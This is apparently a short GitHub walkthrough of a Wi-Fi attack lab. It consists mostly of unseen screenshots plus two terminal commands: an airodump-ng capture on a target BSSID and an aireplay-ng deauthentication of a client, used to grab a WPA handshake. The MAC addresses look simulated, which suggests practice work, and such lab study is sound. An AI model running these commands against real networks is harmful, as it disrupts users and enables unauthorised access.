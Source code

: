 
![image](https://github.com/user-attachments/assets/7307968d-00dd-423a-a945-b0979d771236)


<br>

![image](https://github.com/user-attachments/assets/04d2b174-777b-4b4f-94b5-77defd860df4)

<br>


![image](https://github.com/user-attachments/assets/d1550273-8ff2-4e3c-857f-4bc507b46330)


<br>

<p>First Terminal</p>
<pre><code>sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2</code></pre>

<br>

<p>Second Terminal</p>
<pre><code>sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2</code></pre>


![image](https://github.com/user-attachments/assets/c7bc0365-2c55-459b-aede-d50706f4a8ea)


<br>

![image](https://github.com/user-attachments/assets/41c2cbcf-34a1-4a64-a0e0-dfee558fd7a5)

<br>

![image](https://github.com/user-attachments/assets/db211acb-f2a7-4982-9d75-92211c568871)

<br>

![image](https://github.com/user-attachments/assets/0606a9e1-fcad-4b80-ae34-63cb21109c18)


<br>

![image](https://github.com/user-attachments/assets/d0092da7-a6ad-4cc6-8194-af30d7d14596)

<br>

![image](https://github.com/user-attachments/assets/5ebe729b-d9b5-493a-ace2-55c30e5f44d0)



<p>I will do it all over again ...</p>



